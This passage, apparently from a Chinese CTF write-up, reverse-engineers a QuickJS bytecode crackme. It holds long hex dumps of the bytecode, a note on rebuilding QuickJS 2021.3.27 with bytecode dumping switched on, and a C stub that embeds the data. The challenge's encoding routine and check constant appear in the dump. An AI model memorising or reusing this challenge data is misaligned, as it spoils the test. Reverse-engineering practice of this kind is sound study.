0x02, 0x65, 0x02, 0x71, 0x06, 0x73, 0x75, 0x6D, 0x02, 0x70, 
0x0A, 0x66, 0x6C, 0x6F, 0x6F, 0x72, 0x0C, 0x6F, 0x75, 0x74, 
0x70, 0x75, 0x74, 0x08, 0x63, 0x68, 0x72, 0x31, 0x10, 0x70, 
0x61, 0x72, 0x73, 0x65, 0x49, 0x6E, 0x74, 0x0C, 0x73, 0x75, 
0x62, 0x73, 0x74, 0x72, 0x08, 0x63, 0x68, 0x72, 0x32, 0x08, 
0x63, 0x68, 0x72, 0x33, 0x08, 0x65, 0x6E, 0x63, 0x31, 0x08, 
0x65, 0x6E, 0x63, 0x32, 0x08, 0x65, 0x6E, 0x63, 0x33, 0x08, 
0x65, 0x6E, 0x63, 0x34, 0x0A, 0x69, 0x73, 0x4E, 0x61, 0x4E, 
0x0C, 0x63, 0x68, 0x61, 0x72, 0x41, 0x74, 0x12, 0x64, 0x66, 
0x73, 0x66, 0x64, 0x73, 0x66, 0x73, 0x64, 0x0C, 0x66, 0x77,0x64, 0x65, 0x72, 0x66, 0x0A, 0x70, 0x72, 0x69, 0x6E, 0x74, 
0x18, 0x79, 0x6F, 0x75, 0x72, 0x20, 0x69, 0x6E, 0x70, 0x75, 
0x74, 0x3A, 0x20, 0x20, 0x6E, 0x6F, 0x5F, 0x74, 0x68, 0x69, 
0x6E, 0x67, 0x5F, 0x69, 0x73, 0x5F, 0x74, 0x72, 0x75, 0x65, 
0x0E, 0x64, 0x66, 0x64, 0x66, 0x77, 0x66, 0x33, 0xE0, 0x01, 
0x30, 0x35, 0x61, 0x65, 0x64, 0x30, 0x63, 0x65, 0x34, 0x34, 
0x31, 0x66, 0x38, 0x30, 0x62, 0x35, 0x62, 0x63, 0x33, 0x36, 
0x61, 0x66, 0x34, 0x63, 0x36, 0x39, 0x38, 0x35, 0x30, 0x39, 
0x66, 0x63, 0x36, 0x63, 0x63, 0x33, 0x63, 0x39, 0x37, 0x31, 
0x34, 0x36, 0x33, 0x35, 0x33, 0x64, 0x65, 0x35, 0x61, 0x39, 
0x35, 0x63, 0x36, 0x61, 0x62, 0x65, 0x61, 0x30, 0x37, 0x66, 
0x64, 0x34, 0x61, 0x37, 0x30, 0x37, 0x30, 0x39, 0x33, 0x32, 
0x64, 0x38, 0x36, 0x61, 0x63, 0x33, 0x32, 0x64, 0x36, 0x32, 
0x38, 0x36, 0x37, 0x32, 0x61, 0x35, 0x39, 0x31, 0x32, 0x33, 
0x65, 0x35, 0x39, 0x37, 0x32, 0x33, 0x33, 0x31, 0x64, 0x62, 
0x35, 0x64, 0x66, 0x66, 0x65, 0x37, 0x30, 0x35, 0x37, 0x33, 
0x36, 0x32, 0x06, 0x79, 0x65, 0x73, 0x0E, 0x00, 0x06, 0x00, 
0xA0, 0x01, 0x00, 0x01, 0x00, 0x03, 0x00, 0x08, 0xE4, 0x01, 
0x01, 0xA2, 0x01, 0x00, 0x00, 0x00, 0x3F, 0xE1, 0x00, 0x00, 
0x00, 0x40, 0x3F, 0xE2, 0x00, 0x00, 0x00, 0x40, 0x3F, 0xE3, 
0x00, 0x00, 0x00, 0x40, 0x3F, 0xE4, 0x00, 0x00, 0x00, 0x40, 
0x3F, 0xE5, 0x00, 0x00, 0x00, 0x40, 0x3F, 0xE6, 0x00, 0x00, 
0x00, 0x40, 0x3F, 0xE7, 0x00, 0x00, 0x00, 0x40, 0x3F, 0xE8, 
0x00, 0x00, 0x00, 0x00, 0xC0, 0x00, 0x40, 0xE1, 0x00, 0x00, 
0x00, 0x00, 0xC0, 0x01, 0x40, 0xE2, 0x00, 0x00, 0x00, 0x00, 
0xC0, 0x02, 0x40, 0xE3, 0x00, 0x00, 0x00, 0x00, 0xC0, 0x03, 
0x40, 0xE4, 0x00, 0x00, 0x00, 0x00, 0xC0, 0x04, 0x40, 0xE5, 
0x00, 0x00, 0x00, 0x00, 0xC0, 0x05, 0x40, 0xE6, 0x00, 0x00, 
0x00, 0x00, 0xC0, 0x07, 0x40, 0xE7, 0x00, 0x00, 0x00, 0x00, 
0x3E, 0xE8, 0x00, 0x00, 0x00, 0x00, 0x38, 0xE6, 0x00, 0x00, 
0x00, 0x04, 0xE9, 0x00, 0x00, 0x00, 0x15, 0x43, 0xEA, 0x00, 
0x00, 0x00, 0xC9, 0x38, 0xE6, 0x00, 0x00, 0x00, 0xC0, 0x06, 
0x15, 0x43, 0xEB, 0x00, 0x00, 0x00, 0xC9, 0x06, 0xC9, 0x37, 
0xEC, 0x00, 0x00, 0x00, 0xF4, 0xEB, 0x1D, 0x38, 0xEC, 0x00, 
0x00, 0x00, 0x11, 0x39, 0xE8, 0x00, 0x00, 0x00, 0xC9, 0x38, 
0xE8, 0x00, 0x00, 0x00, 0x42, 0xED, 0x00, 0x00, 0x00, 0x24, 
0x00, 0x00, 0xC9, 0xEC, 0x25, 0x06, 0xC9, 0x37, 0x4D, 0x00, 
0x00, 0x00, 0xF4, 0xEB, 0x0F, 0x38, 0x4D, 0x00, 0x00, 0x00, 
0x11, 0x39, 0xE8, 0x00, 0x00, 0x00, 0xC9, 0xEC, 0x0D, 0x04, 
0xEE, 0x00, 0x00, 0x00, 0x11, 0x39, 0xE8, 0x00, 0x00, 0x00, 
0xC9, 0x38, 0xE7, 0x00, 0x00, 0x00, 0x38, 0xE8, 0x00, 0x00, 
0x00, 0xEF, 0xCD, 0x28, 0xDE, 0x03, 0x01, 0x13, 0xF1, 0x00, 
0x3E, 0xB0, 0x01, 0x58, 0x00, 0x05, 0x36, 0x00, 0x09, 0x40, 
0x35, 0x3F, 0x49, 0x3F, 0x3F, 0x0D, 0x41, 0x0E, 0x43, 0x06, 
0x00, 0xC2, 0x03, 0x02, 0x03, 0x02, 0x09, 0x00, 0x01, 0x6E, 
0x05, 0xE0, 0x03, 0x00, 0x01, 0x00, 0xE2, 0x03, 0x00, 0x01, 
0x00, 0xE4, 0x03, 0x00, 0x00, 0x00, 0xE6, 0x03, 0x00, 0x01, 
0x00, 0xE8, 0x03, 0x00, 0x02, 0x00, 0xD1, 0xE9, 0xC9, 0xD1, 
0xC5, 0xB6, 0x9E, 0x47, 0xBF, 0x00, 0xAD, 0xCA, 0xB5, 0xCB, 
0xC7, 0xC5, 0xA3, 0xEA, 0x3B, 0xD1, 0xC7, 0x71, 0x38, 0x99, 
0x00, 0x00, 0x00, 0x42, 0xF5, 0x00, 0x00, 0x00, 0xD1, 0xC7, 
0x47, 0xBE, 0xFF, 0x00, 0xAD, 0xD1, 0xC7, 0x47, 0xBD, 0x08, 
0xA2, 0xBE, 0xFF, 0x00, 0xAD, 0xD1, 0xC7, 0x47, 0xBD, 0x10, 
0xA2, 0xBE, 0xFF, 0x00, 0xAD, 0xD1, 0xC7, 0x47, 0xBD, 0x18, 
0xA2, 0xBE, 0xFF, 0x00, 0xAD, 0x24, 0x04, 0x00, 0x49, 0x93, 
0x02, 0xEC, 0xC2, 0xD2, 0xEA, 0x15, 0xD1, 0x42, 0x5B, 0x00, 
0x00, 0x00, 0xC1, 0x24, 0x01, 0x00, 0x42, 0xF6, 0x00, 0x00, 
0x00, 0xB5, 0xC6, 0x25, 0x02, 0x00, 0xD1, 0x42, 0x5B, 0x00,0x00, 0x00, 0xC1, 0x25, 0x01, 0x00, 0xDE, 0x03, 0x01, 0x0B, 
0x03, 0x12, 0x30, 0x27, 0x67, 0x35, 0x35, 0x49, 0x17, 0x12, 
0x69, 0x06, 0x00, 0x00, 0xE0, 0xFF, 0xFF, 0xFF, 0xEF, 0x41, 
0x0E, 0x43, 0x06, 0x00, 0xC4, 0x03, 0x02, 0x03, 0x02, 0x07, 
0x00, 0x00, 0x5D, 0x05, 0xEE, 0x03, 0x00, 0x01, 0x00, 0xE2, 
0x03, 0x00, 0x01, 0x00, 0xF0, 0x03, 0x00, 0x00, 0x00, 0xE0, 
0x03, 0x00, 0x01, 0x00, 0xE8, 0x03, 0x00, 0x02, 0x00, 0xD1, 
0xE9, 0xC9, 0x26, 0x00, 0x00, 0xCA, 0xB5, 0xCB, 0xC7, 0xC5, 
0xA3, 0xEA, 0x46, 0xC6, 0xC7, 0xB7, 0xA1, 0x71, 0xD1, 0x42, 
0xF9, 0x00, 0x00, 0x00, 0xC7, 0x24, 0x01, 0x00, 0xD1, 0x42, 
0xF9, 0x00, 0x00, 0x00, 0xC7, 0xB6, 0x9D, 0x24, 0x01, 0x00, 
0xBD, 0x08, 0xA0, 0xAF, 0xD1, 0x42, 0xF9, 0x00, 0x00, 0x00, 
0xC7, 0xB7, 0x9D, 0x24, 0x01, 0x00, 0xBD, 0x10, 0xA0, 0xAF, 
0xD1, 0x42, 0xF9, 0x00, 0x00, 0x00, 0xC7, 0xB8, 0x9D, 0x24, 
0x01, 0x00, 0xBD, 0x18, 0xA0, 0xAF, 0x49, 0xB9, 0x94, 0x02, 
0xEC, 0xB7, 0xD2, 0xEA, 0x06, 0xC6, 0xC6, 0xE9, 0xC5, 0x49, 
0xC6, 0x28, 0xDE, 0x03, 0x13, 0x0B, 0x03, 0x12, 0x17, 0x27, 
0x4E, 0x53, 0x53, 0x58, 0x1C, 0x12, 0x1D, 0x0E, 0x43, 0x06, 
0x00, 0xC6, 0x03, 0x02, 0x0B, 0x02, 0x06, 0x00, 0x04, 0xF8, 
0x01, 0x0D, 0xF4, 0x03, 0x00, 0x01, 0x00, 0xF6, 0x03, 0x00, 
0x01, 0x00, 0xE0, 0x03, 0x00, 0x00, 0x00, 0xF8, 0x03, 0x00, 
0x01, 0x00, 0xFA, 0x03, 0x00, 0x02, 0x00, 0xFC, 0x03, 0x00, 
0x03, 0x00, 0xFE, 0x03, 0x00, 0x04, 0x00, 0x80, 0x04, 0x00, 
0x05, 0x00, 0x82, 0x04, 0x00, 0x06, 0x00, 0x84, 0x04, 0x00, 
0x07, 0x00, 0x86, 0x04, 0x00, 0x08, 0x00, 0x88, 0x04, 0x00, 
0x09, 0x00, 0x8A, 0x04, 0x00, 0x0A, 0x00, 0xD1, 0xC1, 0xA9, 
0xEA, 0x03, 0xC1, 0x28, 0x38, 0xE2, 0x00, 0x00, 0x00, 0xD1, 
0x0A, 0xF0, 0xC9, 0x38, 0xE2, 0x00, 0x00, 0x00, 0xD2, 0x09, 
0xF0, 0xCA, 0xC5, 0xE9, 0xB6, 0x9E, 0xCB, 0xC5, 0xC7, 0x47, 
0xCC, 0xC5, 0xB5, 0x47, 0xC3, 0x04, 0xBF, 0x00, 0xC3, 0x05, 
0x38, 0x9D, 0x00, 0x00, 0x00, 0x42, 0x06, 0x01, 0x00, 0x00, 
0xBB, 0xBD, 0x34, 0xC7, 0xB6, 0x9D, 0x9B, 0x9D, 0x24, 0x01, 
0x00, 0xC3, 0x08, 0xB5, 0xC3, 0x09, 0xC2, 0x08, 0x90, 0xC3, 
0x08, 0xB5, 0xA5, 0x69, 0x9B, 0x00, 0x00, 0x00, 0xC2, 0x09, 
0xC2, 0x05, 0x9D, 0xBF, 0x01, 0xAD, 0xC4, 0x09, 0xB7, 0xA2, 
0xB8, 0xAD, 0xC3, 0x07, 0xB5, 0xC3, 0x0A, 0xC2, 0x0A, 0xC7, 
0xA3, 0xEA, 0x43, 0xC5, 0xC2, 0x0A, 0xB6, 0x9D, 0x47, 0xC3, 
0x04, 0xC8, 0xBA, 0xA2, 0xC2, 0x04, 0xB7, 0xA0, 0xAE, 0xC2, 
0x04, 0xB8, 0xA2, 0xC8, 0xB9, 0xA0, 0xAE, 0x9D, 0xC2, 0x09, 
0xC2, 0x04, 0xAE, 0xC6, 0xC2, 0x0A, 0xB8, 0xAD, 0xC2, 0x07, 
0xAE, 0x47, 0xC8, 0xAE, 0x9D, 0xAE, 0xC3, 0x06, 0xC5, 0xC2, 
0x0A, 0x71, 0xC5, 0xC2, 0x0A, 0x47, 0xC2, 0x06, 0x9D, 0xBF, 
0x02, 0xAD, 0x16, 0x49, 0xCC, 0x93, 0x0A, 0xEC, 0xB9, 0xC5, 
0xB5, 0x47, 0xC3, 0x04, 0xC8, 0xBA, 0xA2, 0xC2, 0x04, 0xB7, 
0xA0, 0xAE, 0xC2, 0x04, 0xB8, 0xA2, 0xC8, 0xB9, 0xA0, 0xAE, 
0x9D, 0xC2, 0x09, 0xC2, 0x04, 0xAE, 0xC6, 0xC2, 0x0A, 0xB8, 
0xAD, 0xC2, 0x07, 0xAE, 0x47, 0xC8, 0xAE, 0x9D, 0xAE, 0xC3, 
0x06, 0xC5, 0xC7, 0x71, 0xC5, 0xC7, 0x47, 0xC2, 0x06, 0x9D, 
0xBF, 0x03, 0xAD, 0x16, 0x49, 0xCC, 0xED, 0x5F, 0xFF, 0x38, 
0xE4, 0x00, 0x00, 0x00, 0x38, 0xE1, 0x00, 0x00, 0x00, 0xC5, 
0x09, 0xF0, 0x23, 0x01, 0x00, 0xDE, 0x03, 0x23, 0x15, 0x03, 
0x1C, 0x08, 0x08, 0x30, 0x30, 0x1D, 0x44, 0x85, 0x3F, 0x35, 
0x21, 0x30, 0x2B, 0xBC, 0x58, 0x17, 0x1C, 0xBC, 0x4E, 0x13, 
0x06, 0x00, 0x00, 0x20, 0x37, 0xEF, 0xC6, 0xE3, 0x41, 0x06, 
0x00, 0x00, 0xE0, 0xFF, 0xFF, 0xFF, 0xEF, 0x41, 0x06, 0x00, 
0x00, 0xE0, 0xFF, 0xFF, 0xFF, 0xEF, 0x41, 0x06, 0x00, 0x00, 
0xE0, 0xFF, 0xFF, 0xFF, 0xEF, 0x41, 0x0E, 0x43, 0x06, 0x00, 
0xC8, 0x03, 0x01, 0x03, 0x01, 0x04, 0x00, 0x01, 0x32, 0x04,0xB0, 0x01, 0x00, 0x01, 0x00, 0x8E, 0x04, 0x00, 0x00, 0x00, 
0x90, 0x04, 0x00, 0x01, 0x00, 0xE8, 0x03, 0x00, 0x02, 0x00, 
0xC1, 0xC9, 0xC1, 0xCA, 0xB5, 0xCB, 0xD1, 0x42, 0xF9, 0x00, 
0x00, 0x00, 0xC7, 0x91, 0xCB, 0x24, 0x01, 0x00, 0x42, 0x37, 
0x00, 0x00, 0x00, 0xBD, 0x10, 0x24, 0x01, 0x00, 0xCE, 0xE9, 
0xB6, 0xA9, 0xEA, 0x06, 0xBF, 0x00, 0xC6, 0x9D, 0xCA, 0xC6, 
0x94, 0x00, 0xC7, 0xD1, 0xE9, 0xA3, 0xEB, 0xD7, 0xC5, 0x28, 
0xDE, 0x03, 0x3E, 0x08, 0x03, 0x0D, 0x0D, 0x0E, 0x76, 0x35, 
0x12, 0x21, 0x07, 0x02, 0x30, 0x0E, 0x43, 0x06, 0x00, 0xCA, 
0x03, 0x01, 0x03, 0x01, 0x06, 0x00, 0x00, 0x52, 0x04, 0xB0, 
0x01, 0x00, 0x01, 0x00, 0x8E, 0x04, 0x00, 0x00, 0x00, 0xE8, 
0x03, 0x00, 0x01, 0x00, 0xF8, 0x03, 0x00, 0x02, 0x00, 0xC1, 
0xC9, 0xB5, 0xCA, 0xC6, 0xD1, 0xE9, 0xA3, 0xEA, 0x47, 0x38, 
0x09, 0x01, 0x00, 0x00, 0xD1, 0x42, 0x0A, 0x01, 0x00, 0x00, 
0xC6, 0xB6, 0x24, 0x02, 0x00, 0xBD, 0x10, 0xF0, 0xB9, 0xA0, 
0x38, 0x09, 0x01, 0x00, 0x00, 0xD1, 0x42, 0x0A, 0x01, 0x00, 
0x00, 0xC6, 0x8F, 0xCE, 0xB6, 0x24, 0x02, 0x00, 0xBD, 0x10, 
0xF0, 0xAF, 0xCF, 0xBE, 0xFF, 0x00, 0xAD, 0xCB, 0xC5, 0x38, 
0x99, 0x00, 0x00, 0x00, 0x42, 0xF5, 0x00, 0x00, 0x00, 0xC7, 
0x24, 0x01, 0x00, 0x9D, 0xC9, 0x93, 0x01, 0xEC, 0xB5, 0xC5, 
0x28, 0xDE, 0x03, 0x4A, 0x09, 0x03, 0x0D, 0x0D, 0x21, 0xDA, 
0x21, 0x58, 0x0D, 0x0D, 0x0E, 0x43, 0x06, 0x00, 0xCC, 0x03, 
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x29, 0xDE, 
0x03, 0x56, 0x01, 0x03, 0x0E, 0x43, 0x06, 0x00, 0x00, 0x01, 
0x09, 0x01, 0x04, 0x00, 0x00, 0xE6, 0x01, 0x0A, 0xB0, 0x01, 
0x00, 0x01, 0x00, 0x8E, 0x04, 0x00, 0x00, 0x00, 0x90, 0x04, 
0x00, 0x01, 0x00, 0x96, 0x04, 0x00, 0x02, 0x00, 0x98, 0x04, 
0x00, 0x03, 0x00, 0x9A, 0x04, 0x00, 0x04, 0x00, 0x9C, 0x04, 
0x00, 0x05, 0x00, 0x9E, 0x04, 0x00, 0x06, 0x00, 0xA0, 0x04, 
0x00, 0x07, 0x00, 0xE8, 0x03, 0x00, 0x08, 0x00, 0xC1, 0xC9, 
0xC1, 0xCC, 0xC1, 0xC3, 0x07, 0xB5, 0xC3, 0x08, 0xD1, 0x42, 
0xF9, 0x00, 0x00, 0x00, 0xC2, 0x08, 0x91, 0xC3, 0x08, 0x24, 
0x01, 0x00, 0xCA, 0xD1, 0x42, 0xF9, 0x00, 0x00, 0x00, 0xC2, 
0x08, 0x91, 0xC3, 0x08, 0x24, 0x01, 0x00, 0xCB, 0xD1, 0x42, 
0xF9, 0x00, 0x00, 0x00, 0xC2, 0x08, 0x91, 0xC3, 0x08, 0x24, 
0x01, 0x00, 0xCC, 0xC6, 0xB7, 0xA1, 0xC3, 0x04, 0xC6, 0xB8, 
0xAD, 0xB9, 0xA0, 0xC7, 0xB9, 0xA1, 0xAF, 0xC3, 0x05, 0xC7, 
0xBD, 0x0F, 0xAD, 0xB7, 0xA0, 0xC8, 0xBB, 0xA1, 0xAF, 0xC3, 
0x06, 0xC8, 0xBD, 0x3F, 0xAD, 0xC3, 0x07, 0x38, 0x11, 0x01, 
0x00, 0x00, 0xC7, 0xEF, 0xEA, 0x09, 0xBD, 0x40, 0xC4, 0x07, 
0xC3, 0x06, 0xEC, 0x0E, 0x38, 0x11, 0x01, 0x00, 0x00, 0xC8, 
0xEF, 0xEA, 0x05, 0xBD, 0x40, 0xC3, 0x07, 0xC5, 0x38, 0xE6, 
0x00, 0x00, 0x00, 0x41, 0xEA, 0x00, 0x00, 0x00, 0x42, 0x12, 
0x01, 0x00, 0x00, 0xC2, 0x04, 0x24, 0x01, 0x00, 0x9D, 0x38, 
0xE6, 0x00, 0x00, 0x00, 0x41, 0xEA, 0x00, 0x00, 0x00, 0x42, 
0x12, 0x01, 0x00, 0x00, 0xC2, 0x05, 0x24, 0x01, 0x00, 0x9D, 
0x38, 0xE6, 0x00, 0x00, 0x00, 0x41, 0xEA, 0x00, 0x00, 0x00, 
0x42, 0x12, 0x01, 0x00, 0x00, 0xC2, 0x06, 0x24, 0x01, 0x00, 
0x9D, 0x38, 0xE6, 0x00, 0x00, 0x00, 0x41, 0xEA, 0x00, 0x00, 
0x00, 0x42, 0x12, 0x01, 0x00, 0x00, 0xC2, 0x07, 0x24, 0x01, 
0x00, 0x9D, 0xC9, 0xC1, 0xD0, 0xCF, 0xCA, 0xC1, 0xC4, 0x07, 
0xC4, 0x06, 0xC4, 0x05, 0xC3, 0x04, 0xC2, 0x08, 0xD1, 0xE9, 
0xA3, 0x6A, 0x2A, 0xFF, 0xFF, 0xFF, 0xC5, 0x28, 0xDE, 0x03, 
0x59, 0x18, 0x03, 0x0D, 0x0D, 0x12, 0x13, 0x4E, 0x4E, 0x4E, 
0x1C, 0x3A, 0x3F, 0x21, 0x30, 0x21, 0x3A, 0x18, 0x08, 0x6C, 
0x6C, 0x6C, 0x71, 0x17, 0x30, 0x35, 0x0E, 0x43, 0x06, 0x00, 
0xCE, 0x03, 0x01, 0x04, 0x01, 0x04, 0x00, 0x00, 0x84, 0x01, 
0x05, 0xD0, 0x03, 0x00, 0x01, 0x00, 0xB0, 0x01, 0x00, 0x00,0x00, 0xA6, 0x04, 0x00, 0x01, 0x00, 0xA8, 0x04, 0x00, 0x02, 
0x00, 0xAC, 0x01, 0x00, 0x03, 0x00, 0xD1, 0xE9, 0xB6, 0xA3, 
0xEA, 0x0D, 0x38, 0x15, 0x01, 0x00, 0x00, 0x04, 0xEE, 0x00, 
0x00, 0x00, 0xEF, 0x29, 0x38, 0x15, 0x01, 0x00, 0x00, 0x04, 
0x16, 0x01, 0x00, 0x00, 0xD1, 0xB5, 0x47, 0x9D, 0xEF, 0x0E, 
0xD1, 0xB5, 0x47, 0xC9, 0x38, 0xE6, 0x00, 0x00, 0x00, 0x42, 
0xEB, 0x00, 0x00, 0x00, 0xC5, 0x24, 0x01, 0x00, 0xCA, 0x04, 
0x17, 0x01, 0x00, 0x00, 0x11, 0x39, 0x18, 0x01, 0x00, 0x00, 
0x0E, 0x38, 0xE3, 0x00, 0x00, 0x00, 0xC6, 0x38, 0x18, 0x01, 
0x00, 0x00, 0xF0, 0xCF, 0xE9, 0xBD, 0x70, 0xAA, 0xEA, 0x0D, 
0x38, 0x15, 0x01, 0x00, 0x00, 0x04, 0xEE, 0x00, 0x00, 0x00, 
0xEF, 0x29, 0x04, 0x19, 0x01, 0x00, 0x00, 0xCC, 0xC7, 0xC8, 
0xA9, 0xEA, 0x0E, 0x38, 0x15, 0x01, 0x00, 0x00, 0x04, 0x1A, 
0x01, 0x00, 0x00, 0xEF, 0x0E, 0x29, 0x38, 0x15, 0x01, 0x00, 
0x00, 0x04, 0xEE, 0x00, 0x00, 0x00, 0xEF, 0x29, 0xDE, 0x03, 
0x76, 0x11, 0x03, 0x21, 0x3B, 0x08, 0x54, 0x17, 0x4F, 0x3F, 
0x40, 0x26, 0x3B, 0x09, 0x21, 0x1D, 0x3F, 0x09, 0x3C, 0x00, 
0x00, 0x00, 0xDD, 0x08, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
0x00, 0x00, 0x00, 0x00 
```
恢复之后，根据附件字符串知道是2021.3.27版本，github上拉取一下，并且根据链接修改脚本
```
//#define DUMP_BYTECODE (1) 
#define DUMP_BYTECODE (1) 
//#define DUMP_READ_OBJECT 
#define DUMP_READ_OBJECT
#if DUMP_BYTECODE 
js_dump_function_bytecode(ctx, b); 
#endif
```
make过后把里面数据dump下来
```
#include "quickjs-libc.h" 
#include <stdio.h> 
#include <stdlib.h> 
#include <string.h> 
uint8_t qjsc_s[] = {0x02, 0x3A, 0x10, 0x6C, 0x6F, 0x6E, 0x67, 0x32, 0x73, 0x74, 
0x72, 0x10, 0x73, 0x74, 0x72, 0x32, 0x6C, 0x6F, 0x6E, 0x67, 
0x10, 0x73, 0x64, 0x66, 0x73, 0x66, 0x73, 0x64, 0x66, 0x0E, 
0x73, 0x74, 0x72, 0x32, 0x48, 0x65, 0x78, 0x0E, 0x68, 0x65, 
0x78, 0x32, 0x73, 0x74, 0x72, 0x0C, 0x78, 0x78, 0x78, 0x66, 
0x73, 0x73, 0x08, 0x6D, 0x61, 0x69, 0x6E, 0x08, 0x61, 0x72, 
0x67, 0x73, 0x82, 0x01, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 
0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F, 0x50, 
0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57, 0x58, 0x59, 0x5A, 
0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67, 0x68, 0x69, 0x6A, 
0x6B, 0x6C, 0x6D, 0x6E, 0x6F, 0x70, 0x71, 0x72, 0x73, 0x74, 
0x75, 0x76, 0x77, 0x78, 0x79, 0x7A, 0x30, 0x31, 0x32, 0x33, 
0x34, 0x35, 0x36, 0x37, 0x38, 0x39, 0x2B, 0x2F, 0x3D, 0x0E, 
0x5F, 0x6B, 0x65, 0x79, 0x53, 0x74, 0x72, 0x0A, 0x64, 0x66, 
0x73, 0x66, 0x73, 0x14, 0x73, 0x63, 0x72, 0x69, 0x70, 0x74, 
0x41, 0x72, 0x67, 0x73, 0x0A, 0x73, 0x68, 0x69, 0x66, 0x74, 
0x0A, 0x65, 0x72, 0x72, 0x6F, 0x72, 0x20, 0x2E, 0x2F, 0x74, 
0x65, 0x73, 0x74, 0x5F, 0x65, 0x6E, 0x63, 0x6F, 0x64, 0x65, 
0x2E, 0x6A, 0x73, 0x02, 0x76, 0x02, 0x77, 0x04, 0x76, 0x6C, 
0x04, 0x73, 0x6C, 0x02, 0x69, 0x18, 0x66, 0x72, 0x6F, 0x6D, 
0x43, 0x68, 0x61, 0x72, 0x43, 0x6F, 0x64, 0x65, 0x12, 0x73,0x75, 0x62, 0x73, 0x74, 0x72, 0x69, 0x6E, 0x67, 0x02, 0x73, 
0x06, 0x6C, 0x65, 0x6E, 0x14, 0x63, 0x68, 0x61, 0x72, 0x43, 
0x6F, 0x64, 0x65, 0x41, 0x74, 0x06, 0x73, 0x74, 0x72, 0x06, 
0x6B, 0x65, 0x79, 0x02, 0x6B, 0x02, 0x6E, 0x02, 0x7A, 0x02, 
0x79, 0x0A, 0x64, 0x65, 0x6C, 0x74, 0x61, 0x04, 0x6D, 0x78, 
0x02, 0x65, 0x02, 0x71, 0x06, 0x73, 0x75, 0x6D, 0x02, 0x70, 
0x0A, 0x66, 0x6C, 0x6F, 0x6F, 0x72, 0x0C, 0x6F, 0x75, 0x74, 
0x70, 0x75, 0x74, 0x08, 0x63, 0x68, 0x72, 0x31, 0x10, 0x70, 
0x61, 0x72, 0x73, 0x65, 0x49, 0x6E, 0x74, 0x0C, 0x73, 0x75, 
0x62, 0x73, 0x74, 0x72, 0x08, 0x63, 0x68, 0x72, 0x32, 0x08, 
0x63, 0x68, 0x72, 0x33, 0x08, 0x65, 0x6E, 0x63, 0x31, 0x08, 
0x65, 0x6E, 0x63, 0x32, 0x08, 0x65, 0x6E, 0x63, 0x33, 0x08, 
0x65, 0x6E, 0x63, 0x34, 0x0A, 0x69, 0x73, 0x4E, 0x61, 0x4E, 
0x0C, 0x63, 0x68, 0x61, 0x72, 0x41, 0x74, 0x12, 0x64, 0x66, 
0x73, 0x66, 0x64, 0x73, 0x66, 0x73, 0x64, 0x0C, 0x66, 0x77, 
0x64, 0x65, 0x72, 0x66, 0x0A, 0x70, 0x72, 0x69, 0x6E, 0x74, 
0x18, 0x79, 0x6F, 0x75, 0x72, 0x20, 0x69, 0x6E, 0x70, 0x75, 
0x74, 0x3A, 0x20, 0x20, 0x6E, 0x6F, 0x5F, 0x74, 0x68, 0x69, 
0x6E, 0x67, 0x5F, 0x69, 0x73, 0x5F, 0x74, 0x72, 0x75, 0x65, 
0x0E, 0x64, 0x66, 0x64, 0x66, 0x77, 0x66, 0x33, 0xE0, 0x01, 
0x30, 0x35, 0x61, 0x65, 0x64, 0x30, 0x63, 0x65, 0x34, 0x34, 
0x31, 0x66, 0x38, 0x30, 0x62, 0x35, 0x62, 0x63, 0x33, 0x36, 
0x61, 0x66, 0x34, 0x63, 0x36, 0x39, 0x38, 0x35, 0x30, 0x39, 
0x66, 0x63, 0x36, 0x63, 0x63, 0x33, 0x63, 0x39, 0x37, 0x31, 
0x34, 0x36, 0x33, 0x35, 0x33, 0x64, 0x65, 0x35, 0x61, 0x39, 
0x35, 0x63, 0x36, 0x61, 0x62, 0x65, 0x61, 0x30, 0x37, 0x66, 
0x64, 0x34, 0x61, 0x37, 0x30, 0x37, 0x30, 0x39, 0x33, 0x32, 
0x64, 0x38, 0x36, 0x61, 0x63, 0x33, 0x32, 0x64, 0x36, 0x32, 
0x38, 0x36, 0x37, 0x32, 0x61, 0x35, 0x39, 0x31, 0x32, 0x33, 
0x65, 0x35, 0x39, 0x37, 0x32, 0x33, 0x33, 0x31, 0x64, 0x62, 
0x35, 0x64, 0x66, 0x66, 0x65, 0x37, 0x30, 0x35, 0x37, 0x33, 
0x36, 0x32, 0x06, 0x79, 0x65, 0x73, 0x0E, 0x00, 0x06, 0x00, 
0xA0, 0x01, 0x00, 0x01, 0x00, 0x03, 0x00, 0x08, 0xE4, 0x01, 
0x01, 0xA2, 0x01, 0x00, 0x00, 0x00, 0x3F, 0xE1, 0x00, 0x00, 
0x00, 0x40, 0x3F, 0xE2, 0x00, 0x00, 0x00, 0x40, 0x3F, 0xE3, 
0x00, 0x00, 0x00, 0x40, 0x3F, 0xE4, 0x00, 0x00, 0x00, 0x40, 
0x3F, 0xE5, 0x00, 0x00, 0x00, 0x40, 0x3F, 0xE6, 0x00, 0x00, 
0x00, 0x40, 0x3F, 0xE7, 0x00, 0x00, 0x00, 0x40, 0x3F, 0xE8, 
0x00, 0x00, 0x00, 0x00, 0xC0, 0x00, 0x40, 0xE1, 0x00, 0x00, 
0x00, 0x00, 0xC0, 0x01, 0x40, 0xE2, 0x00, 0x00, 0x00, 0x00, 
0xC0, 0x02, 0x40, 0xE3, 0x00, 0x00, 0x00, 0x00, 0xC0, 0x03, 
0x40, 0xE4, 0x00, 0x00, 0x00, 0x00, 0xC0, 0x04, 0x40, 0xE5, 
0x00, 0x00, 0x00, 0x00, 0xC0, 0x05, 0x40, 0xE6, 0x00, 0x00, 
0x00, 0x00, 0xC0, 0x07, 0x40, 0xE7, 0x00, 0x00, 0x00, 0x00, 
0x3E, 0xE8, 0x00, 0x00, 0x00, 0x00, 0x38, 0xE6, 0x00, 0x00, 
0x00, 0x04, 0xE9, 0x00, 0x00, 0x00, 0x15, 0x43, 0xEA, 0x00, 
0x00, 0x00, 0xC9, 0x38, 0xE6, 0x00, 0x00, 0x00, 0xC0, 0x06, 
